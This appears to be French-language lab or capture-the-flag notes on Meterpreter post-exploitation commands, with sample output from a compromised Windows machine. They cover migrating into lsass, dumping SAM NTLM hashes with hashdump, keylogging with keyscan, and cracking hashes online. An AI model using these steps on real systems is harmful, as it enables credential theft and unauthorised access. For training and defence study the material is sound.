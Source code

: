 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la **liste des commandes** accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le **nom de l'utilisateur actuel**.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour **lister tous les processus en cours**.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut **migrer meterpreter vers un autre processus** pour **mieux interagir** avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour **récupérer les mots de passes de la db SAM** (Security Account Manager), ils sont stocké au format NTLM (New Technology LAN Manager).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: 
meterpreter >
```


## __Search__

Permet de **trouver un fichier** dans le disque.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
	c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```


## __Shell__

Pour avoir un **terminal classique** de commande.

```shell
meterpreter > shell 
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>
```


## __Commande utile__

### Commande Principale

| Commande     | Description                                                        |
| ------------ | ------------------------------------------------------------------ |
| `background` | Arrière-plan de la session en cours                                |
| `exit`       | Terminer la session Meterpreter                                    |
| `guid`       | Get the session GUID (Globally Unique Identifier)                  |
| `help`       | Displays the help menu                                             |
| `info`       | Displays information about a Post module                           |
| `irb`        | Opens an interactive Ruby shell on the current session             |
| `load`       | Loads one or more Meterpreter extensions                           |
| `migrate`    | Allows you to migrate Meterpreter to another process               |
| `run`        | Executes a Meterpreter script or Post module                       |
| `sessions`   | Quickly switch to another sessionQuickly switch to another session |

### Commande file system

| Commande | Description                                                   |
| -------- | ------------------------------------------------------------- |
| `cd`     | Will change directory                                         |
| `ls`     | Will list files in the current directory (dir will also work) |
| `pwd`    | Prints the current working directory                          |
| `edit`   | will allow you to edit a file                                 |
| `cat`    | Will show the contents of a file to the screen                |
| `rm`     |                                                               |
